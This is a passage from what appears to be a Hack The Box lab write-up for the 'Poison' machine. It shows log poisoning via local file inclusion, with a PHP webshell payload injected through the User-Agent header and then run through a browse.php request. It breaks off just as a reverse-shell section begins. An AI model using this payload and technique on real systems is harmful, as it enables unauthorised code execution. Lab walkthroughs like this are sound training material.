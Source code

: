 

    ErrorLog "/var/log/httpd-error.log"
    CustomLog "/var/log/httpd-access.log" combined



#### Log Poisoning

Lines in our access log look like this:



    10.10.14.4 - - [19/Mar/2018:13:28:50 +0100] "GET /HNAP1 HTTP/1.1" 404 203 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.md)"



We'll modify our user-agent using burp to add a webshell. I always like
to add a marker here (like "0xdf:"), so that as the log file grows, we
can easily locate our output, either with ctrl-f, or using curl and
grep.



    GET / HTTP/1.1
    Host: 10.10.10.84
    User-Agent: 0xdf: <?php system($_GET['c']); ?>
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1



Then visit:
`http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=id`

![](/img/poison_poisoned.png)

## Reverse Shell

Just like we didn't need the webshell, we don't really need a reverse
shell to complete Poison. Even if we hadn't found `pwdbackup.txt` with
`listfiles.php`, we still could find it now running `ls` in our
webshell. Still, the fun of HTB is getting shells, so let's get one with
this web shell.

### Check Connectivity

A ping shows that we can generate outbound network traffic back to our
host:
